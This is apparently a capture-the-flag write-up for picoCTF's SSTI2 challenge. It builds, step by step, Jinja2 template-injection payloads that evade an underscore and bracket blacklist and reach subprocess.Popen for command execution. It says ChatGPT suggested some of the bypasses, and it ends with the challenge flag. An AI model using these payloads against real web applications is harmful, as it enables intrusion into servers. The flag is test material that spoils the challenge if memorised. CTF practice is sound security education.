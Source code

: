 # SSTI2
## Description: 
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :) I heard templating is a cool and modular way to build web apps! Check out my website here!

### Solution
1. Using the payload `{{7*'7'}}`, we get `7777777`. Thus, Jinja2 is being used.
2. However, when we run `{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls -la').read()}}`, the website return "Stop trying to break me message", indicating filter is being used.
3. To solve this, I refer to the websites https://ctf.zeyu2001.com/2021/csaw-ctf-qualification-round-2021/ninja and https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f to learn about bypassing blacklist filter.
4. First, when I try out '().__class__', it is getting blocked as the underscore is being blacklisted.
5. Try encode the underscore with '\x5f' by using the payload **'{{()|attr('\x5f\x5fclass\x5f\x5f')}}'**. Bypass successful.
6. Next, just search **<class ‘subprocess.Popen’>** in subclasses using **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')}}'**
7. However, nothing is returned. To test that, we will first try **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')}}**
8. Nothing is returned, suggesting `__base__` maybe blocked.
9. Through ChatGPT, it is suggesting us to use **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()}}'** and it works successfully.
10. But, as we try on the payload **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()[-1]}}'**, it generates internal server error. But as we change [-1] to [1], it is blocked due to blacklisting on [].
11. Through ChatGPT, it is suggesting us to use **|last** instead of [-1]. So, the new payload is **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()|last}}'** and it returns **<class 'object'>**.
12. Next, to get a list of all built-in Python classes, we will access `__subclassess__()` using the payload **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()|last|attr('\x5f\x5fsubclasses\x5f\x5f')()}}'**
13. It will return list of subclasses. We are interested in getting the index of **subprocess.Popen**.
14. To get the index, copy all the return subclasses into a file name subclasses.txt and run this python script on it.

    ```python
    with open('subclasses.txt') as p:
        check = p.read()
    for index, value in enumerate(check.split(',')):
        if "<class 'subprocess.Popen'>" in value:
            print(index)
    ```
15. The index of **subprocess.Popen** is 356.
16. Subprocess is found in index 356, but the problem is we can’t use []. We can replace the array [] by using the __ getitem __ method.
17. So, we will use the payload **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()|last|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(356)}}'**.
18. For, RCE try the payload **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()|last|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(356)('ls -la',shell=True,stdout=-1)|attr('communicate')()}}'** to list all the files.
19. To read the flag, use **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()|last|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(356)('cat flag',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}'**
20. picoCTF{sst1_f1lt3r_byp4ss_e964f71b}

